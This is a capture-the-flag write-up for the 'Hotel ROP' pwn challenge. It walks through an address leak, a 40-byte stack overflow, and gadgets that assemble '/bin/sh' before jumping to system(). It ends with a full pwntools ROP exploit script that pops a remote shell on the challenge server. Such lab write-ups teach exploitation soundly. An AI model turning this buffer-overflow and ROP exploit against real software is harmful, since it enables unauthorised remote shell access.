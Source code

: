 # Hotel ROP

In this challenge we are given a binary, `hotel_rop` and a link to a server running this binary.

Running the file, we get the following output:
```
$ ./hotel_rop
Welcome to Hotel ROP, on main street 0x5617508ca36d
You come here often?
a
I think you should come here more often.
```

Running this multiple times, the number after "main street" keeps changing every time, but always ends with `36d`.
As it always starts with `0x55` or `0x56`, I can assume that this is an address in the program itself and not the stack or heap or libc.

Opening `hotel_rop` in Radare2 and seeking to `main`, I find immediately that `main` is at an offset of `0x136d`, so this address should be our `main` in the current program.

Checking the security of the binary, I saw that it is a PIE, but without a stack canary. Thus, it's a candidate for buffer overflows and ROP.

To find the offset for overflowing the buffer I just kept running `perl -e 'print "\x41"x40;'` with different multipliers until I got a segmentation fault. The correct offset is 40 bytes.

Looking at `california` (offset `0x11dc`) and `silicon_valley` (offset `0x1283`) in Radare2, I notice that they write something to various offsets of some memory address called `win_land` in byte increments. Looking more closely, in `california`  those bytes are "/", "b", "i" and "n", and in `silicon_valley` are "/", "s" and "h". As there is also a counter called `len` in the stack used for storing offsets, calling `california` then `silicon_valley` writes first `/bin`, then `/sh` to successive bytes in `win_land`, thus getting you the string `/bin/sh` to call `system("/bin/sh")` on.

![California](https://i.imgur.com/sjG9ukk.png)

![Silicon Valley](https://i.imgur.com/vD8LOrg.png)


Well, that was easy.

Looking at the disassembly of the function `loss` in Radare2, I see that towards the end it runs `system(win_land)` if you pass a few complicated tests on the arguments to the function:

![Loss function](https://i.imgur.com/LR4ieQt.png)

However, you can skip all these complicated tests and go right to the `lea rdi, obj.win_land` instruction at `0x11c3`, which puts `win_land` into the `rdi` register and calls `system()` with that as the argument.


So, the plan is: get the base address of `main` from the first line, calculate the offsets of `california`, `silicon_valley` and `loss`, and use this address to make a rop chain running those in order. Here is the code:

```python
from pwn import *

p = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)

main_offset = 0x136d
california_offset = 0x11dc
silicon_valley_offset = 0x1283
system_offset = 0x11c3

p.recvuntil("street")
base = int(p.recvline().strip(), 16) - main_offset

california = p64(base + california_offset)
silicon_valley = p64(base + silicon_valley_offset)
system = p64(base + system_offset)

p.recvuntil("often?\n")
p.sendline((b'\x00'*40) + california + silicon_valley + system)
p.interactive()
```

This pops a shell, and the flag is at `flag.txt`.


*As a side note, if you fill the 40 junk bytes before your ROP chain with anything but zeroes, the program says "I think you should come here more often.", and if you fill it with zeroes, the program says "Oh! You are already a regular visitor!"*
